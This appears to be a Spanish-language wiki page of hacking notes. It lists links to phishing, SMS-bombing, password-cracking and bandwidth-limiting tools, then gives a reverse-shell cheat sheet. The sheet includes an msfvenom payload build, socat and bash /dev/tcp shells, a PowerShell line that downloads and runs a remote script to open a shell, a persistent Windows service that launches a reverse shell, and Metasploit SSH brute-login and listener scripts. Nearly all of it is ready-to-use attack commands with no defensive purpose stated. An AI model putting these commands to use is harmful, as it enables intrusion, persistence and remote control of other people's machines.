 = Herramientas enlaces =
- [[https://github.com/htr-tech/zphisher|zphisher]]
- [[https://github.com/UndeadSec/EvilURL|EvilUrl]]
- [[https://github.com/gophish/gophish|gophish]]
- [[https://github.com/hashcat/hashcat|hashcat]]
- [[https://shop.hak5.org/|pagina comprar hardware hacking]]
- [[https://github.com/LionSec/katoolin|katoolin herramienta para añadir repositorios kali linux]]
- [[netcat]]
- [[https://github.com/FDX100/GOD-KILLERhttps://github.com/FDX100/GOD-KILLER|GOD-KILLER(SMS)]]
- [[https://computingforgeeks.com/install-metasploit-framework-on-debian/|instalación metasploit]]
- [[https://gtfobins.github.io/gtfobins/bash|todas las posibles reverse shell linux]]
- [[https://github.com/bitbrute/evillimiter|limitar internet]]
- [[https://overthewire.org/wargames/|retos para aprender hacking]]
= Cheatsheet =
=== Reverse shell meterpreter ===
{{{bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.16 LPORT=4444 -f exe > reverse.exe
}}}
=== Reverse shell socat ===
{{{bash
socat file:`tty`,raw,echo=0 TCP-L:4444
socat exec:bash,pty,stderr,setsid,sigint,sane tcp:192.168.0.16:4444
}}}
=== Reverse shell con bash ===
- Servidor
{{{bash
socat file:`tty`,raw,echo=0 TCP-L:4444
# o
nc -lvp 4444
}}}
- Cliente
{{{bash
export RHOST=192.196.0.16
export RPORT=4444
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
}}}
=== Reverse shell windows guapificado ===
- Servidor
{{{bash
stty raw -echo; (stty size; cat) | nc -lvnp 4444
}}}
- Cliente
{{{batch
powershell -c IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.0.16 4444
}}}
=== Crear servicio powershell ===
{{{bash
New-Service -Name "netcatr" -BinaryPathName '"C:\\nc\socat.exe 192.168.0.200 4444"' -Description "reverse shell" -StartupType Automatic
}}}
=== script meterpreter ===
- msfconsole -r nombre_script.rc copiar contenido del bloque en el archivo
{{{bash
# Conectarse a traves de ssh con meterpreter
use auxiliary/scanner/ssh/ssh_login
set rhosts <ip> 
set username <usuario>   
set password <contraseña>
exploit
# Now convert command shell into meterpreter shell through following command
# session -u 1
}}}
{{{bash
# Poner a la escucha el metasploit
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.0.16
set LPORT 4444
set ExitOnSession false
exploit -j -z
}}}
